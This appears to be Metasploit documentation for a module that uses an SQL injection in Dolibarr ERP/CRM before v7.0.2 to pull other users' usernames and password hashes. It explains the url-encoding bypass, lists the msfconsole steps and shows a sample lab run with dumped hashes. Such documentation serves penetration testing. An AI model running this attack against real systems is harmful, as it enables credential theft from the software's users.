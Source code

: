## Description

  This module enables an authenticated user to collect usernames and encrypted passwords of other users of the ERP/CRM Dolibarr software via SQL injection.
  Checks in the Dolibarr software can be bypassed by url-encoding the SQL commands, provided that the commands do not contain quotes.

## Vulnerable Application

  Dolibarr ERP/CRM Software versions < v7.0.2. Dolibarr v7.0.0 can be found [here](https://www.exploit-db.com/apps/04b0bb4b4864117b5bf47c0fcc737254-dolibarr-7.0.0.tar.gz).
  By default, user accounts do not have access to view the list of other users of the software. The admin account must first be used to enable the members page, create general users, and give those users permission to access the members page.
  
## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use auxiliary/sqli/oracle/dolibarr_list_creds```
  4. Do: ```set RHOSTS [IP]```
  5. Do: ```set USERNAME [USER]```
  6. Do: ```set PASSWORD [PASS]```
  7. Do: ```set TARGETURI [URI]```
  8. Do: ```run```
  9. You should get a list of credentials

## Scenarios

### Tested on Dolibarr v7.0.0 running on Ubuntu 18.04

```

  msf5 > use auxiliary/sqli/oracle/dolibarr_list_creds
  msf5 auxiliary(sqli/oracle/dolibarr_list_creds) > set username test
  username => test
  msf5 auxiliary(sqli/oracle/dolibarr_list_creds) > set password blah
  password => blah
  msf5 auxiliary(sqli/oracle/dolibarr_list_creds) > set targeturi /dolibarr
  targeturi => /dolibarr
  msf5 auxiliary(sqli/oracle/dolibarr_list_creds) > set rhosts 192.168.37.228
  rhosts => 192.168.37.228
  msf5 auxiliary(sqli/oracle/dolibarr_list_creds) > run

  [*] Logging in...
  [+] Successfully logged into Dolibarr
  [+] Accessed credentials
  [+] user 8456167fd64d3cda366bda95088dda4d7ea94995
  [+] test 9d49884ec5f2c8431572a73e3285ceed3f0bdc5b
  [+] blahBlah e345d4aa5a6a63f828870b0d299dd921d119a5c7
  [+] someUser fe79b08f9f6a1104a141ff65047087a36d926f12
  [*] Auxiliary module execution completed

```
